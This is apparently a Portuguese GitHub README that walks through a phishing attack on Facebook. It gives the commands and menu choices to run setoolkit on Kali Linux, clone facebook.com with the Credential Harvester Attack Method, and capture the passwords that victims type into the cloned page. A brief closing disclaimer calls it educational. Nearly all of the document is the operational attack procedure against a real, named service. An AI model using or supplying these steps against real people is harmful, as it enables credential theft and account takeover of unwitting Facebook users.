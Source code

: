 # Phishing para Captura de Senhas do Facebook

## Ferramentas Necessárias
- **Kali Linux**: Sistema operacional projetado para testes de penetração.
- **setoolkit**: Ferramenta integrada ao Kali Linux para simulação de ataques sociais.

---

## Configurando o Phishing no Kali Linux

1. **Acessar como root**:
   Execute o comando abaixo para obter permissão de superusuário:
   ```bash
   sudo su
   ```

2. **Iniciar o setoolkit**:
   Inicie a ferramenta digitando o seguinte comando no terminal:
   ```bash
   setoolkit
   ```

3. **Selecionar o tipo de ataque**:
   Escolha a opção:
   ```
   Social-Engineering Attacks
   ```

4. **Definir o vetor de ataque**:
   Escolha a opção:
   ```
   Web Site Attack Vectors
   ```

5. **Selecionar o método de ataque**:
   Escolha a opção:
   ```
   Credential Harvester Attack Method
   ```

6. **Escolher o método do site clonado**:
   Escolha a opção:
   ```
   Site Cloner
   ```

7. **Obter o endereço IP da máquina**:
   Utilize o comando abaixo para identificar o IP local que será usado no ataque:
   ```bash
   ifconfig
   ```
   Copie o endereço IPv4 exibido na interface de rede em uso.

8. **Inserir a URL a ser clonada**:
   No prompt, insira o link do site alvo:
   ```
   http://www.facebook.com
   ```

---

## Resultados
- Todas as credenciais inseridas no site clonado serão capturadas e exibidas no terminal ou armazenadas em um arquivo de log no sistema.

> **Nota Importante:** Este procedimento é apresentado exclusivamente para fins educacionais e de conscientização sobre segurança. O uso de phishing para qualquer propósito mal-intencionado é ilegal e pode levar a graves conseqüências legais.


### Resutados

![Alt text](./passwd.png "Optional title")
